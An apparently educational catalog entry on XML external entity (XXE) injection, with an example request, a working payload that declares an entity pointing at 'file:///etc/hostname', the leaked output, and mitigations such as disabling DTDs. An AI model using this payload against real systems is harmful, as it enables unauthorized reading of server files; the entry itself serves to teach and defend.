 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

A threat actor may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Threat actor sends a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target-in
```
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>
```

#### Target-Out
```
Jone Doe
```

#### Target-in
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)
